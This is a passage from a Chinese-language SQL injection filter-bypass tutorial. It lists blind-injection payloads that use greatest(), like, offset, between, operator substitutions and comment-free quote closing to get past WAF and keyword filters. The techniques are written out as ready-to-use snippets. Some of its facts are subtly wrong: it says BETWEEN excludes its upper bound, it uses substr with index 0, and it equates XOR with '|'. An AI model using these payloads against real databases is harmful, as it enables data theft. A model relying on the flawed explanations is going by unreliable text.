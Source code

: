 使用like：

```php
select ascii(mid(user(),1,1))=80 #等价于

select user() like ‘r%’
```

对于limit可以使用offset来绕过：

`select \* from news limit 0,1`

等价于下面这条SQL语句

`select \* from news limit 1 offset 0`

#### 第五种方法:比较符号（&lt;&gt;）绕过

（过滤了&lt;&gt;：sqlmap盲注经常使用&lt;&gt;，使用between的脚本）

使用greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。

最常见的一个盲注的sql语句：

```php
select \* from users where id\=1 and ascii(substr(database(),0,1))\>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,…)函数返回输入参数(n1,n2,n3,…)的最大值。

那么上面的这条sql语句可以使用greatest变为如下的子句:

```php
select \* from users where id\=1 and greatest(ascii(substr(database(),0,1)),64)\=64
```

**使用between and：**

between a and b：返回a，b之间的数据，不包含b。

### or and xor not绕过

and=&amp;&amp; or=|| xor=| not=!

### 第七方法:绕过注释符号（#，–(后面跟一个空格））过滤

```php
id\=1’ union select 1,2,3||'1

最后的or '1闭合查询语句的最后的单引号，或者：

id\=1’ union select 1,2,'3
```

### 第八种方法:=绕过

使用like 、rlike 、regexp 或者 使用&lt; 或者 &gt;

### 第九种方法:绕过union，select，where等
